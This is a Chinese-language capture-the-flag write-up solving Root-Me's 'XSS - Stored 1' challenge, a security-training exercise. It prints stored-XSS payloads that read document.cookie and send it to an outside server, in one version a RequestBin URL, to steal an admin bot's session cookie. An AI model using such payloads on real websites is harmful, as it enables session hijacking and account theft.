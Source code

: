 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2922/)]

------

已经很直白提示是存储型 XSS 题型。

页面需要提交一个表单，在 Message 区测试注入一个 html 代码 `<img src=0 />`，提交后发现直接作为图片元素渲染。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/01.png)

打开浏览器的开发者工具查看，不难发现 Cookie 并没有标注 `HttpOnly` 属性，说明可以利用 `document.cookie` 发起 XSS 攻击。

多刷新几次页面，发现这台靶机后台有个机器人线程在定时读取我们提交的消息，当读取之后，该消息会被删掉，此时页面底部会提示 `Your messages have been read` 。

而我们要做的就是把 XSS 的 payloads 消息存储到后台，当机器人读取到这条消息时，就会把这个机器人的 Cookie 发送到我们的指定的一台服务器，实现 Cookie 窃取。

假设我们已经搭建了一台服务器 `${HOST}` ，那么可以在 Message 区构造一个这样的 payloads ：

`exp:<script>document.write("<img src=${HOST}?tk="+document.cookie+" />");</script>`

（注：此 payloads 建议直接在页面提交，若使用 Burp Suite 提交注意需要先把 `+` 编码成 `%2B` ，否则会导致服务器报错收不到消息）

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/02.png)

提交 payloads 消息后，就登录到 `${HOST}` 服务器守株待兔即可 (大概需要等5分钟)，只要机器人读取了这条消息，就能收到其 Cookie 。

对于这个 `${HOST}` 服务器，推荐使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器。例如你生成的 HTTP 服务的临时 URL 为 `http://requestbin.fullcontact.com/qnwgrmqn`，则把 payloads 修改为：

`exp:<script>document.write("<img src=http://requestbin.fullcontact.com/qnwgrmqn?tk="+document.cookie+" />");</script>`

当然你也可以选择自己实现一个 HTTP 服务器，但是必须有公网 IP。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/03.png)

最终收到的 Cookie 为：`ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6`，其值就是 flag，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B09%5D%20%5B30P%5D%20XSS%20-%20Stored%201/imgs/04.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
